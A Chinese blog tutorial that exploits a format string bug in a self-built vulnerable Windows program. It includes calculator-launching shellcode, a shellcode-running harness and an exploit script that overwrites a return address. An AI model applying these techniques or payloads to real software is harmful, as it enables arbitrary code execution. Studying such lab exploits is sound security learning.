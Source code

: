 ```yaml
---
layout:     post
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
date:       2016-11-17 15:32:25
author:     "Carter"
header-img: "https://raw.githubusercontent.com/carterMgj/carterMgj.github.io/master/img/post-bg-re-vs-ng2.jpg"
tags:
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png)
%100x：指定数据打印时显示长度为100字节

%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴:

HKEY_LOCAL_MACHINE -->  SOFTWARE --> Microsoft --> Windows NT --> CurrentVersion --> AeDebug
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/4.png)
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```python
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```c++
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```python
!mona modules
```
可以查看程序各个加载模块对应开启的安全机制
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/5.png)
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/6.png)
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/7.png)
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：

```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```

对比下图，可以验证说法正确性
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/8.png)

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/9.png)
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/10.png)
所以我们的目的就是令：EAX=0x12FaF0  ECX=0x12FB48

### 五. 编写漏洞利用脚本
输入构造为：

- shellcode
- 相应多的%x
- 一些%nx来调整输出长度
- 需要被覆盖的地址

**exp.py**

```python
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/11.png)
弹出可爱的计算器
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/12.png)

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


